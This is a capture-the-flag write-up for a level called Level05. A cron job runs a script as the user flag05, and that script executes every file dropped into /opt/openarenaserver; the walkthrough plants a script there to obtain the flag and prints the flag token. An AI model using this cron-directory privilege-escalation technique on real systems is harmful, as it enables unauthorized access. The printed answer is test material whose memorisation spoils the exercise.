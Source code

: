 # Level05

### Tools


### How to solve it

1. After loging in using ssh in level05@(vmIP): 
```
ssh level05@000.000.000.000 -p 4242
```
2. When loging in we get this message:
```
You have new mail.
```
3. If you give a little research you will find that mails are stored in /var/mail or /var/spool so we find:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
4. The command above is a cron file with su -c(switch user and execute command) sh (run the script) flag05(the user) and after that we look for the file openarenaserver and cat this:
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
5. When the openarenaserver is called it run a program stored in /opt/openarenaserver wish is bash -x "$i" line.
So we now have to insert a file in openarenaserver folder to be executed with getflag command:
```
echo 'getflag > /usr/sbin/flag05' > /opt/openarenaserver/flag05 it will not work because this folder has no permission
echo 'getflag > /tmp/flag05' > /opt/openarenaserver/flag05
```
6. So now we know that this program is being executed every 2 minutes and then we cat the /tmp/flag05
8. And Boom:
```
viuaaale9huek52boumoomioc
```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional proction would be implemeting passwords in important files

